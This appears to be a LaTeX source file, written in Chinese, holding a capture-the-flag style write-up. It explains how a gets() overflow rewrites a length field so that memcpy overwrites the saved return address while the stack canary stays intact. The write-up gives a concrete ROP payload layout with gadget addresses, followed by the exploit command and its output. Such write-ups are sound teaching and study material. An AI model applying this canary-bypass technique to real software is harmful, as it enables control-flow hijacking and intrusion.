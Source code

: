 \documentclass[UTF8,a4paper,12pt,fontset=windows]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\code{gets()} 没有边界检查，所以我能溢出 \code{expression}，在到达 canary 之前
先把 \code{len} 改成我想要的值。而 \code{len} 又反过来决定了 \code{memcpy} 的落点：

\[
\texttt{dest} = \texttt{rbp} - \texttt{0xa0} + \texttt{len}
\]

取 \code{len = 0xa8}，那么

\[
\texttt{dest} = \texttt{rbp} - \texttt{0xa0} + \texttt{0xa8} = \texttt{rbp} + \texttt{0x8}
\]

算出来正好落在保存返回地址的位置上。

\code{len} 和 canary 相距 \code{0x20 - 0x8 = 0x18} 字节，gets 写入时先覆盖
\code{len}、再覆盖 \code{pad}，最后才到 canary。我让输入刚好在 canary 之前停下，
canary 就保持原样。

\subsection{payload 的布局}

\begin{lstlisting}
偏移    内容                       说明
0x00    p64(0x4018a3)              pop rdi; ret，被拷到 rbp+8，成为新的 rip
0x08    p64(4)                     grade = 4
0x10    p64(0x4018a4)              ret（栈对齐）
0x18    p64(0x401677)              grade_eval
0x20    96 字节填充                拷贝源的剩余部分
0x80    128 字节填充               gets 写进 logMsg，不影响结果
0x100   p32(0xa8)                  f.len，让 memcpy 的落点变成 rbp+8
\end{lstlisting}

一共 0x104 = 260 字节。gets 追加的结束符落在偏移 0x104（\code{rbp-0x1c}），
位于 canary 的低地址一侧。

对齐方面：\code{input()} 的 \code{ret} 之后 \code{rsp \% 16 == 0}，
经过 \code{pop rdi; ret} 再加一条对齐用的 \code{ret}，到 \code{grade\_eval}
入口处 \code{rsp \% 16 == 8}，符合 ABI 要求。

\subsection{标准输出与退出状态}

\begin{lstlisting}
$ python3 ../payload_canary.py > payload.bin && ./dark-log < payload.bin
(exit status: 139)
--- stdout ---
Enter a log message:

 Hope A will be your grade!
\end{lstlisting}
\end{document}

